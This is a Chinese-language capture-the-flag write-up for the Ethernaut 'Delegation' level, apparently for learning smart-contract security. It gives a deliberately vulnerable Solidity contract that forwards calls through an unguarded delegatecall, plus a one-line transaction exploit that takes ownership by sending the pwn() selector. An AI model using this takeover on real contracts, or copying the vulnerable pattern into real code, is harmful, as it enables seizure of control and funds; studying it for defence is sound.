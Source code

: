 # Delegation

> 这一关的目标是申明你对你创建实例的所有权.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## 攻击思路

网站暴露给我们Delegation的地址。我们可以触发Delegation合约的fallback函数同时在msg.data中发送Delegate的pwn函数调用

```js
// 0xdd365b8b 由 abi.encodeWithSignature("pwn()") 得到
await contract.sendTransaction({data:"0xdd365b8b"})
```

[The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/)